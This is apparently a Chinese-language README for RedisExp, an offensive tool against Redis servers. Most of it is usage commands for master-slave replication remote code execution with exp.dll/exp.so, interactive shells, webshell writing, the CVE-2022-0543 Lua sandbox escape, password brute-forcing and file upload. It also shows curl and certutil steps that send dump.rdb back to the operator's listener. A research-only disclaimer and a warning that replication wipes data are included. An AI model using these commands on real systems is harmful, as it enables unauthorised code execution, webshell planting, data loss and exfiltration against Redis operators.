






## Redis 漏洞利用工具

帮助：`-h`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

Usage of main.exe:
  -brute
        爆破 Redis 密码
  -c string
        执行命令 (default "whoami")
  -cli
        执行 Redis 命令
  -console
        使用交互式 shell
  -down
        开启 Http Sever
  -exec
        主从复制-命令执行
  -lfile string
        需要上传的文件名
  -lhost string
        本地 IP
  -lport string
        本地端口 (default "21000")
  -lua
        Lua沙盒绕过命令执行 CVE-2022-0543
  -p string
        设置 Http Sever 端口 (default "9001")
  -pwd string
        设置密码
  -pwdf string
        设置密码字典
  -rfile string
        保存在目标的文件名
  -rhost string
        目标 IP
  -rpath string
        保存在目标的目录 (default ".")
  -rport string
        目标端口 (default "6379")
  -shell
        备份写 Webshell
  -slaveof
        关闭主从复制
  -so string
        设置 exp.dll | exp.so (default "exp.dll")
  -upload
        主从复制-文件上传
```

```
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

设置 HttpServer 接收上传的内容:
RedisExp.exe -down
```


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**


### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**解决：**

1、查看 Redis 信息，查看数据是否保存在 dump.rdb


2、主从复制执行命令：此时数据会被清空


3、下载 dump.rdb 文件回本地，然后再把 dump.rdb 主从复制回去，数据就恢复了。

如果文件不大，可以使用 base64 把文件给编码，然后复制回来给本地解码。

```
Windows：

certutil -encode dump.rdb 1.txt
type 1.txt
```

```
Linux:

base64 dump.rdb
```


如果文件过大，可以通过把 dump.rdb 上传到本地，所以我设置了 httpServer 来接收数据。

Linux 可以使用 curl ，Windows 没有 curl 所以需要自己上传程序来把内容传回来，所以 upload.go 就是用来上传文件回来的

```
Windows:

upload.exe -u 192.168.211.1:9001 -f dump.rdb
```

```
Linux:

curl -F "file=@dump.rdb" http://192.168.211.1:9001
```




4、使用 **主从复制文件上传** 的方式上传回去来恢复数据

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```



5、上传 dump.rdb 会卡住，所以需要**主动关闭主从复制**

```
RedisExp.exe -rhost 192.168.211.131 -slaveof
```





6、**最好本地搭建对应的环境先测试**


### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````


文件上传：

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```


### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```



### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```




### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

